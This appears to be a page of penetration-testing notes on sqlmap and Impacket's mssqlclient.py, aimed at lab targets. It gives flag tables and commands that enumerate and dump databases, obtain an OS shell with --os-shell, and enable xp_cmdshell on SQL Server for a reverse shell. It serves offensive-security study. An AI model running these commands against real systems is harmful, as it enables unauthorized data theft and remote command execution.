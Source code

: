 ## SQLmap
SQLmap is an open-source tool used in penetration testing to detect and exploit SQL  injection flaws. SQLmap automates the process of detecting and exploiting SQL  injection. SQL Injection attacks can take control of databases that utilize SQL.

If we needed authentication to access to the web we will need to add the cookies value to the command. For doing that we can use Cookie-Editor, explained in [[Useful webs]].

### EXAMPLE 1

We can use *sqlmap* specifying the target url:
- *Parameters*:
	- `-u`: Specifies the target URL to be tested for SQL injection vulnerabilities. In this case, the target URL is http://192.168.1.102/administrator
	    
| Option                    | Description                                                                                                                       |
|---------------------------|-----------------------------------------------------------------------------------------------------------------------------------|
| `-u`                       | Specifies the target URL to be tested for SQL injection vulnerabilities. Example: `http://192.168.1.102/administrator`.          |
| `--batch`                  | Runs sqlmap in batch mode, performing operations automatically without prompting for user input.                                  |
| `--dbs`                    | Instructs sqlmap to enumerate the available databases on the database server.                                                     |
| `--tables`                 | Instructs sqlmap to enumerate the available tables in the selected database.                                                      |
| `--level (1-5, default 1)` | Defines the scope of vectors and boundaries used for injection. Higher levels involve more obscure techniques with lower success. **Levels:** 1 (default): Basic tests, minimal impact. 2: Extends tests to more techniques, might cause some disruption. 3: More advanced techniques, higher chance of impacting the target. 4-5: Highly specific and risky techniques, use with caution. |
| `--risk (1-3, default 1)`  | Controls the types of exploit vectors based on their potential risk. **Levels:** 1 (default): Low-risk techniques, unlikely to cause harm. 2: Includes techniques with moderate risk of data loss or denial-of-service. 3: Attempts all techniques, including disruptive or data-altering ones (use responsibly). |


	```bash
	sqlmap -u http://192.168.1.102/administrator --forms --dbs --batch
	```
	After using this command the available databases will be printed, then you can enumerate  the tables stored in each database:
	```bash
	sqlmap -u http://192.168.1.102/administrator --forms -D <database_name> --tables --batch
	```
	Once you have introduced this command, the available columns in the database will be printed. Now to find the content of the columns you need to use the following command:
	```bash
	sqlmap -u http://192.168.1.102/administrator --forms -D <database_name> -T <Columns_name> --columns --batch
	```
	Finally, you can print the columns information using:
	```bash
	sqlmap -u http://192.168.1.102/administrator --forms -D <database_name> -T <Columns_name> -C <parameter1>,<parameter2><parameter3> --dump --batch
	```

### EXAMPLE 2	
For a most exhaustive analysis, we can save the vulnerable request with _save item_ in Burp Suite. The field in which the insertion will be made in this example is **id**, previously investigated in Burp Suite.

| Option           | Description                                                                                                           |
|------------------|-----------------------------------------------------------------------------------------------------------------------|
| `-r pc`          | Specifies the file that contains the saved HTTP request, named "pc" in this case. It will be used as input for sqlmap. |
| `-p id`          | Indicates the name of the URL or body parameter in the HTTP request to be tested for SQL injection. Example: `id`.     |
| `--dbs`          | Instructs sqlmap to enumerate the available databases on the database server.                                          |
| `--tables`       | Instructs sqlmap to enumerate the available tables in the selected database.                                           |
| `-D SQLite_masterdb` | Specifies the name of the database where operations will be performed. Example: `SQLite_masterdb`.                      |
| `-T accounts`    | Specifies the name of the table on which operations will be performed. Example: `accounts`.                            |
| `--columns`      | Instructs sqlmap to enumerate the available columns in the specified table.                                            |
| `--batch`        | Runs sqlmap in batch mode, performing the operations automatically without prompting for user input.                   |
| `--threads 5`    | Specifies the number of threads sqlmap will use simultaneously. Example: 5 threads.                                    |
| `--dump`         | Extracts the data from the specified table and displays it as output.                                                  |

- Find databases:
```bash
sqlmap -r pc -p id  --dbs	
```
- Find tables in a specific database:	
```bash
sqlmap -r pc -p id -D <database_name> --tables  
```
- Find columns in a specific table:
```bash
sqlmap -r pc -p id -D <database_name> -T <table_name> --columns 
```
- Dump columns content
```bash
sqlmap -r pc -p id -D <database_name> -T <table_name> --dump --columns "<column1_name>,<column2_name>,<column3_name>"
```

### Exemple 3
| Option            | Description                                                                                                      |
|-------------------|------------------------------------------------------------------------------------------------------------------|
| `-u`               | Specifies the target URL to be tested for SQL injection vulnerabilities. Example: `http://10.129.95.174/dashboard.php?search=any+query` |
| `--cookie`        | Sets the cookie value for the HTTP request. Cookies maintain session information. Example: `PHPSESSID=7u6p9qbhb44c5c1rsefp4ro8u1` |
| `--os-shell`      | Attempts to obtain an operating system shell on the vulnerable server if SQL injection is successful. This provides direct interaction with the operating system. |

```bash
sqlmap -u 'http://10.129.95.174/dashboard.php?search=any+query' --  
cookie="PHPSESSID=7u6p9qbhb44c5c1rsefp4ro8u1" --os-shell
```
# mssqlclient.py 
mssqlclient.py is a script from the Impacket class collection. When mssqlclient.py is executed, a connection is established with the specified SQL Server and it allows interaction through a command-line interface.

- `windows-auth`: This flag is specified to use Windows Authentication.
- `ARCHETYPE/sql_svc`: Server ID (previously found).
````bash
python3 mssqlclient.py ARCHETYPE/sql_svc@{TARGET_IP} -windows-auth
````

In case `xp_cmdshell` is not enabled (which is the command we will use for a reverse shell), perform the following steps:
````bash
EXEC sp_configure 'show advanced options', 1;
RECONFIGURE;
sp_configure; -- Enabling the sp_configure as stated in the above error message
EXEC sp_configure 'xp_cmdshell', 1;
RECONFIGURE;

````

